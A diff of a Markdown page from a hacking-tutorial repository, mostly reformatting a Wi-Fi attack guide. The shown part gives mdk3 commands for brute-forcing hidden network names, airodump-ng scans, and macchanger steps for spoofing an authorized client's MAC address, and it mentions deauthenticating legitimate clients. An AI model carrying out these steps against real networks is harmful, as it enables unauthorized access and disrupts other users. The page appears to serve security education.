

Before and after one commit to buda-sys/Buda_Hack_Security, a Markdown page: budahacksecurity_static/uploads/air.md, the part around one of its changes. Shown at 83% size. Rendered like a GitHub page; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/budahacksecurity_static/uploads/air.md
+++ b/budahacksecurity_static/uploads/air.md
@@ -320,39 +543,94 @@ bashsudo mdk3 wlan0mon p -b u -c 1 -t A2:A6:32:1B:29:D5
+**Available charsets for `-b`:**
+
+- `u` — Uppercase only
+- `n` — Digits only
+- `a` — All printable characters
+- `c` — Uppercase and lowercase
+- `m` — Uppercase, lowercase, and numbers
+
+**Brute force with all possible values:**
+
+```bash
+sudo mdk3 wlan0mon p -b u -c 1 -t A2:A6:32:1B:29:D5
+```
+
 <img src="/budahacksecurity/uploads/md_images/air/air7.png" style="max-width:100%; border-radius:8px;">
-Brute force using a wordlist:
-bashsudo mdk3 wlan0mon p -f /opt/wordlist.txt -t D2:A3:32:1B:29:D5
+
+**Brute force using a wordlist:**
+
+```bash
+sudo mdk3 wlan0mon p -f /opt/wordlist.txt -t D2:A3:32:1B:29:D5
+```
+
 <img src="/budahacksecurity/uploads/md_images/air/air8.png" style="max-width:100%; border-radius:8px;">
 
-8. Bypassing MAC Filtering
+
+### 8. Bypassing MAC Filtering
+
 MAC filtering is a security measure implemented on wireless routers to restrict network access exclusively to devices whose MAC addresses are on an allowed list. Obtaining the network password is an important step, but if the router has this filtering active, we will not be able to connect even with the correct key — we will need to spoof an authorized MAC address.
+
 We start by scanning the available Wi-Fi networks:
-bashsudo airodump-ng wlan0mon
 
-Remember that the network adapter must be in monitor mode before running this command.
+```bash
+sudo airodump-ng wlan0mon
+```
+
+> Remember that the network adapter must be in monitor mode before running this command.
 
 <img src="/budahacksecurity/uploads/md_images/air/air9.png" style="max-width:100%; border-radius:8px;">
-We can see that the ESSID is available and has several connected clients. Once the password is obtained, when we try to connect the router rejects us because our MAC is not on its access list.
-To bypass MAC filtering we can spoof the MAC address of an authorized client. However, this can generate MAC collisions — two devices cannot coexist with the same MAC address on the same network simultaneously.
+
+We can see that the `ESSID` is available and has several connected clients. Once the password is obtained, when we try to connect the router rejects us because our MAC is not on its access list.
+
+To bypass MAC filtering we can spoof the MAC address of an authorized client. However, this can generate **MAC collisions** — two devices cannot coexist with the same MAC address on the same network simultaneously.
+
 To resolve this we have several options:
 
-Disconnect the legitimate client through a deauthentication attack, thereby freeing its MAC address.
-Wait for the client to disconnect on its own.
-Check if there is a 5 GHz band available without connected clients and connect to it directly.
+- Disconnect the legitimate client through a deauthentication attack, thereby freeing its MAC address.
+- Wait for the client to disconnect on its own.
+- Check if there is a **5 GHz** band available without connected clients and connect to it directly.
 
-Scanning Networks on the 5 GHz Band
-bashsudo airodump-ng wlan0mon -b a
+###### Scanning Networks on the 5 GHz Band
+
+```bash
+sudo airodump-ng wlan0mon -b a
+```
+
 <img src="/budahacksecurity/uploads/md_images/air/air10.png" style="max-width:100%; border-radius:8px;">
+
 We confirm that a 5 GHz band network exists with no clients connected, allowing us to spoof a MAC from the 2.4 GHz band without risk of collision.
-We use the macchanger tool to spoof our MAC address:
-1. Stop monitor mode:
-bashsudo airmon-ng stop wlan0mon
-2. Check our current MAC address:
-bashsudo macchanger wlan0
+
+We use the [macchanger](https://github.com/alobbs/macchanger) tool to spoof our MAC address:
+
+**1. Stop monitor mode:**
+
+```bash
+sudo airmon-ng stop wlan0mon
+```
+
+**2. Check our current MAC address:**
+
+```bash
+sudo macchanger wlan0
+```
+
+```
 Current MAC:   42:00:00:00:05:00 (unknown)
 Permanent MAC: 42:00:00:00:05:00 (unknown)
-3. Disable the interface:
-bashsudo ifconfig wlan0 down
-4. Change the MAC address to that of an authorized client:
-bashsudo macchanger wlan0 -m 72:B4:31:0D:1A:C8
+```
+
+**3. Disable the interface:**
+
+```bash
+sudo ifconfig wlan0 down
+```
+
+**4. Change the MAC address to that of an authorized client:**
+
+```bash
+sudo macchanger wlan0 -m 72:B4:31:0D:1A:C8
+```
+
+```
 Current MAC:   42:00:00:00:05:00 (unknown)
 Permanent MAC: 42:00:00:00:05:00 (unknown)
 New MAC:       72:b4:31:0d:1a:c8 (unknown)
````
Also changed, not shown: other parts of budahacksecurity_static/uploads/air.md (+409 -173 lines).
